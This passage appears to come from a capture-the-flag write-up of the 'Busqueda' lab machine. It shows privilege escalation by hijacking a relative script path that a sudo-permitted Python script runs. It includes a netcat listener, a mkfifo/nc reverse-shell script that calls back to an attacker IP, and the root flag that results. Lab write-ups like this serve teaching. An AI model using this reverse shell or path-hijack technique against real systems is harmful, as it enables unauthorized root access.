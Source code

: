 The argument is referenced using a relative path (`./full-checkup.sh`) instead of an absolute path (`/opt/scripts/full-checkup.sh`), which means that the script will pick up the file from the directory where it is been executed. As a result, we could change to a directory where `svc` has write privileges, such as his home directory (`~/`) or `/tmp`, create a revershe shell script named `full-checkup.sh`, and then execute `system-checkup.py` using `sudo`. This process will result in giving us a `root` revershe shell back:

>_More info about relative vs. absolute paths [here](https://cspanias.github.io/posts/HTB-Precious/#extra)._

```bash
# open a listener
$ nc -lvnp 1337
listening on [any] 1337 ...
```

```bash
# change to the /home directory
svc@busqueda:/$ cd ~
# create our reverse shell code
svc@busqueda:~$ nano full-checkup.sh
# give execute permissions to the script
svc@busqueda:~$ chmod +x full-checkup.sh
# display the file's content
svc@busqueda:~$ cat full-checkup.sh
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 1337 >/tmp/f
# check file's permissions
svc@busqueda:~$ ls -l full-checkup.sh
-rwxrwxr-x 1 svc svc 87 Jan 30 08:16 full-checkup.sh
# execute the command with elevated privileges
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

```

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 60178
# cat /root/root.txt
d2feae7ce4475771813e67abcb2da871
```

![](machine_pwned.png){: width="75%" .normal}

## Extra

> IppSec's [video walkthrough](https://www.youtube.com/watch?v=5dHgfviJWmg).

In case we did not know `Searchor`'s version or a PoC was not available for us, we could try exploring and exploiting the app's functionality manually. First, we can intercept a random search request with Burp and output it into a file:

![](random_search_searcher.png)
